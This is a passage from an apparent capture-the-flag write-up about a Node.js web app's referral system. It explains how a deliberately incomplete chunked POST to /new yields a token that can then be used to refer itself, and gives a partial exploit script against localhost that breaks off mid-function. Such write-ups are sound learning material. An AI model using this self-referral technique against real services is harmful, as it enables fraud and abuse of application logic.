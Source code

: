 ```javascript
        users.set(token, {
            name,
            code,
            ref: 0,
            bal: 0,
        });
    });

    res.header("set-cookie", `token=${token}`);
    res.redirect("/");
});
```
So by sending a POST request to `/new` without a complete body, we can get the token, then make a reference code from that token, then finish the request's body with `refer` is our own token. I chose `Transfer-Encoding: chunked` as normal `Content-Type: application/x-form-urlencoded` needs `Content-Length` which is calculatable but I was too lazy to do so.
```javascript
const net = require("net");

const host = "localhost";
const port = 3000;
const new_path = "/new";
const code_path = "/code";
const home_path = "/";
const cashout_path = "/cashout";
const buy_path = "/buy";
var token = "";

const new_socket = net.createConnection(port, host, () => {
    new_socket.write(
        `POST ${new_path} HTTP/1.1\r\n` +
        `Host: ${host}\r\n` +
        `Transfer-Encoding: chunked\r\n\r\n`
    );
});

const get_code = async (token) => {
    const res = await fetch(`http://${host}:${port}${code_path}`, {
        headers: { Cookie: `token=${token}` },
    });
    const text = await res.text();
    const code = text.split("<strong>")[1].split("</strong>")[0].trim();
    return code;
};

const create_referer = async (code) => {
    const res = await fetch(`http://${host}:${port}${new_path}`, {
        method: "POST",
        body: `name=testtesttest&refer=${code}`,
    });
    return;
};

const make_bail = async (token) => {
    const res = await fetch(`http://${host}:${port}${cashout_path}`, {
        headers: { Cookie: `token=${token}` },
    });
    return;
};

const get_home = async (token) => {
    const res = await fetch(`http://${host}:${port}${home_path}`, {
        headers: { Cookie: `token=${token}` },
```